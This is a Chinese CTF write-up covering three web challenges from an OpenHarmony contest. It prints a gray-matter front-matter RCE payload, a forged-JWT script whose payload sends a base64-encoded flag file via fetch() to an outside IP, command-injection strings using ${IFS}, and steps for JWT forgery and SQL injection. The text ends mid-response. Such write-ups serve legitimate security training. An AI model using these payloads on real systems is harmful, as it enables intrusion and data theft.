# 第一届OpenHarmony_CTF专题赛web方向题解-先知社区

> **来源**: https://xz.aliyun.com/news/18209  
> **文章ID**: 18209

---

两天三道web也算是有惊无险



# Filesystem

这是一个开发了不到百分之十的文件管理系统tips：赛题服务环境启动较慢，请耐心等待2分钟左右再访问赛题，若长时间没有服务请尝试重启

审计代码最开始发现的就是admin.controller.ts中使用了gray-matter库来处理用户的slogon



经过测试可以直接RCE

```
// import * as gray from "gray-matter"
const gray = require('gray-matter');

var payload = '---js
((require("child_process")).execSync("whoami > RCE.txt"))
---RCE';
var username = 'admin';

const profile = gray.stringify(gray(payload).content, {username: username});

console.log(profile)
```



那么我就可以往slogon里写入恶意代码从而达到任意命令执行

但是到这里我们需要先伪造jwt，而secret的值让我很难相信他是真的secret，发现有几处从configFile = "/opt/filesystem/adminconfig.lock"读取内容，猜测真的secret在其中



于是继续往下走

在app.controller.ts中看到



想到软连接(ln -s后tar打包，zip不知道为什么不行)

成功读出/etc/passwd



但是尝试读环境变量和/opt/filesystem/adminconfig.lock均未果，源码位置猜谜猜了半天也没找到

想着试试tar解压目录穿越覆盖adminconfig.lock直接改掉secret

无奈中尝试直接用sec\_y0u\_nnnnever\_know伪造jwt，没想到居然成功了，前面一大半路子白绕

```
import time
import jwt
import requests


malicious_slogon = """---js
{
  FLAG_FILE: (() => {
    try { return fetch('http://124.70.133.212:8989/?flag=' + require('child_process').execSync('cat /data/flag/f1aGG313.txt|base64;', {encoding: 'utf8'})).then(response => response.json()).then(data => console.log(data)).catch(error => console.error('Error:', error)) } catch(e) { return 'not found' }
  })()
}
---"""

def forge_jwt_token(slogon="default_slogon"):
    jwt_secret = "sec_y0u_nnnnever_know"

    payload = {
        "username": "admin",
        "slogon": slogon,
        "iat": int(time.time()),
        "exp": int(time.time()) + 7*24*3600
    }

    token = jwt.encode(payload, jwt_secret, algorithm='HS256')
    print(token)
    return token


token = forge_jwt_token(slogon=malicious_slogon)
```



暴搜flag无奈服务器太卡了，最后在ass.sh得知/data/flag目录后找到flag





# Layers of Compromise

神人没想user爆破

user/password123进入后伪造cookie


发现二级目录，且点击日志后会重定向到登陆界面，猜测需要获取一个token去访问



爆破文件得到/secrettttts/token.txt

username和auth\_key都给了，算md5后序列化数据并base64编码



写出auth\_token生成脚本

```
<?php
$data = [
    'username' => 'dev',
    'hash' => md5('dev' . 'S3cr3tK3y!2023')
];
echo base64_encode(serialize($data));
```

发现能访问日志了



闭合后执行命令

";${IFS}ls${IFS}/;#



然后又是漫长的找flag时间

";${IFS}nl${IFS}../../f\*/f\*;#



# ezAPP\_And\_SERVER

附件拿到一个hap

查看abc发现xor的key和加密的一些字符



解密

```
def decrypt_string(a):
    a = a.encode()
    key = b'134522123'
    res = []
    for i in range(len(a)):
        res += [a[i]^key[i%len(key)]]
    return bytes(res).decode()


print(decrypt_string("c`u\u0007\u0002\u0006\tNczpg\u0004"))
print(decrypt_string("\u001eRD\\u001dD\u0000\u001dTTGRYSU"))
print(decrypt_string("\u001eRD\\u001dD\u0000\u001dP^]@TQFB\rFXW\t"))
print(decrypt_string("J\u0011UVF[^\\u0011\u000b\u0011SPFT]ST\u0013N"))
print(decrypt_string("|z}w{Xp|qVXE]Y[v\u000bD\u0001qudwtps|rre\rs\u007fx{qrT\u007fvscts\u0005ykF\u0004~a~J\u0001@
\u0003YaD\u0001B\u0004K9\DFUH\u001dyFDc[Fw\u0006\u0001guxsxaJ\u0007h\u0006]aGqGd[p[Dtd|\u0002\u0007\u0001dXYG}RPsAB~\u0005K@F|ZFYtW|\u007f?A\u0006~aG\u0006cN}dKV^XVDl\u0002j\u0002\u0005Cukxzzkkua\u0005d^\u001fRhP\u0004jkFZe\ruQwCUtYV~P~[DVVfc@@8y\u0006@G\u0000{Ea{{}ZeX\xhCrYU~gaM~t\u0000\u0019^Fup\u007fdF\u0004q`q\u001bS@tAA\u001cd\u0006\u001fzAB[\u007ftpeSz`P_8
\bfAL\u000bykAt`Dl\u0007W\u0019\u007fDExr@y|Sf\u0003_HPd\u0005jf`[k_[Y\u001eY\u0003\u001aU\u000b|tg\u0005\u0003fAgiEDAw@vdsD;x\u001b\|PrubUxe\u0002\u0005x\u001eVv~\u0000mrkzzww\u0003d\u007fXsBuur\u0001_zb]G\u0006\u0004\u000bu\u0003PvzJ~EfdDs|cE\u001eqp\u0000@>aE{usbpq"))
print(decrypt_string("\u001eRD\\u001dD\u0000\u001dTTGRYSU"))
print(decrypt_string("FpBz\u0001ecH
\u001bEzx\u0017@|SrAXQGkloXz\u0007ElXZ"))
print(decrypt_string("W_UR"))
```



```
RSA2048|PKCS1
/api/v1/getflag
/api/v1/contacts?uid=
{"action":"getflag"}
MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA6HXr1LSOx2q97lSv0p7z
hqtgy/JwwWntE73TDKGMSx6Z5lRsDuVjBhuGPI050VkhtIgbAppM4xtsNhwkGfOK
s4OSt7PzHVyglkgwX7X04qFZKNOYYDS6Um+gZb5XXwiQ8GcFqfEjbKbLjvegUWur
UpIGBPC@
/api/v1/getflag
wCvO3WRz9*vNM%rMaApkerY^^jI6vXmh
flag
```

UserList中看见了一些硬编码的uid

```
r24[0] = createobjectwithbuffer(["uid", "f47ac10b-58cc-4372-a567-0e02b2c3d479"]);
r24[1] = createobjectwithbuffer(["uid", "c9c1e5b2-5f5b-4c5b-8f5b-5f5b5f5b5f5b"]);
r24[2] = createobjectwithbuffer(["uid", "732390b8-ccb6-41de-a93b-94ea059fd263"]);
r24[3] = createobjectwithbuffer(["uid", "f633ec24-cfe6-42ba-bcd8-ad2dfae6d547"]);
r24[4] = createobjectwithbuffer(["uid", "eb8991c8-9b6f-4bc8-89dd-af3576e92bdb"]);
r24[5] = createobjectwithbuffer(["uid", "db62356d-3b99-4764-b378-e46cb95df9e6"]);
r24[6] = createobjectwithbuffer(["uid", "8f4610ee-ee87-4cca-ad92-6cac4fdbe722"]);
r24[7] = createobjectwithbuffer(["uid", "1678d80e-fd4d-4de3-aae2-cb0077f10c21"]);
```



再utils中看到jwt的生成逻辑



伪造jwt后sql注入出admin的uid



{"data":{"users":[{"uuid":"9d5ec98c-5848-4450-9e58-9f97b6b3b7bc","name":"admin","phone":"123-456-7890"},{"uuid":"f47ac10b-58cc-4372-a567-0e02b2c3d479","name":"Bob","phone":"987-654-3210"},{"uuid":"c9c1e5b2-5f